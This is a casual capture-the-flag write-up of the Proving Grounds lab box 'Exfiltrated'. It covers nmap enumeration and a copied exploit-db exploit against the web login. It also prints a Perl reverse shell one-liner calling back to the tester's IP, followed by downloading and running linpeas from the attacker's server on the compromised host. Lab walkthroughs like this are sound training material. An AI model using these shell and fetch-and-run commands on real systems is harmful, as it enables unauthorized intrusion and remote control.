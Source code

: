 ```yaml
---
aliases:
  - Exfiltrated
tags:
  - pg-playground
  - linux
  - enumeration
  - exploitation
os: Linux
difficulty: Easy
date: 2025-04-11
status: owned
---
```


## Box Summary

| Field              | Value                |
| ------------------ | -------------------- |
| **Name**           | Exfiltrated          |
| **IP**             | `192.168.198.163`    |
| **OS**             | Linux                |
| **Difficulty**     | Easy                 |
| **Date Completed** | 11 Apr 2025          |
| **Exploited Via**  | RCE or PrivEsc Chain |
| **Flags Captured** | ✅ Root, ✅ User       |

---

### 2. Enumeration

Quick Nmap Scan just to see what's going on as usual:

```
nmap -sCV -p- -T4 192.168.198.163
```

Output:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -sCV -p- -T4 192.168.198.163
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-10 22:45 EDT
Nmap scan report for 192.168.198.163
Host is up (0.037s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
|_  256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.57 seconds
```

From here we can see port 80 and port 22 is open, and just searching for the ip in my browser doesnt give me a anything, so we gonna try the links 1 by 1.

![[Exfiltrated-1744341273064.jpeg]]


After much trial and error and hardwork (I'm kidding it wasn't hard at all), we find ourself some weird login page, so whats the next step to do ? try out some useless username and password like admin:admin, but nah, no way this is gonna be this easy. Imma just google for exploits:

![[Exfiltrated-1744341434736.jpeg]]

Like all script kiddies do I'm just gonna use my trusty [exploitDB](https://www.exploit-db.com/exploits/49876) and copy and paste the python code. 

🔹 Create & Activate Virtual Environment
```
python3 -m venv afu-venv
source afu-venv/bin/activate
```

🔹 Install Dependencies
```
pip install requests bs4
```

So we run the exploit:

![[Exfiltrated-1744342000765.jpeg]]

and we just happen to get in: cool beans, so ngl, I just found out that theres this thing called revshells.com after looking at an online guide because idk how to continue, but DAMN:

![[Exfiltrated-1744342348811.jpeg]]


```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.233:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

ngl, this feels abit underwhelming:

![[Exfiltrated-1744342402815.jpeg]]

but alls good, we have a listener on 4444 on the other end so we gonna upgrade the shell (ngl this guy is pretty genius)

```
python3 -c 'import pty;pty.spawn("/bin/bash")'; export TERM=xterm-256color
```

Okay time to document how this whole linpeas shit works:

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
```

Host http server:

```
python3 -m http.server 8000
```

On the shell you opened:

```
wget http://192.168.45.233:8000/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
```

Output:

```
www-data@exfiltrated:/var/www/html/subrion/uploads$ wget http://192.168.45.233:8000/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
<//192.168.45.233:8000/linpeas.sh -O /tmp/linpeas.sh
--2025-04-11 03:47:49--  http://192.168.45.233:8000/linpeas.sh
Connecting to 192.168.45.233:8000... chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
connected.
HTTP request sent, awaiting response... 200 OK
Length: 840085 (820K) [text/x-sh]
Saving to: ‘/tmp/linpeas.sh’

/tmp/linpeas.sh     100%[===================>] 820.40K  3.54MB/s    in 0.2s    

2025-04-11 03:47:49 (3.54 MB/s) - ‘/tmp/linpeas.sh’ saved [840085/840085]

www-data@exfiltrated:/var/www/html/subrion/uploads$ chmod +x /tmp/linpeas.sh
www-data@exfiltrated:/var/www/html/subrion/uploads$ /tmp/linpeas.sh
```

![[Exfiltrated-1744344088505.jpeg]]

![[Exfiltrated-1744344314630.jpeg]]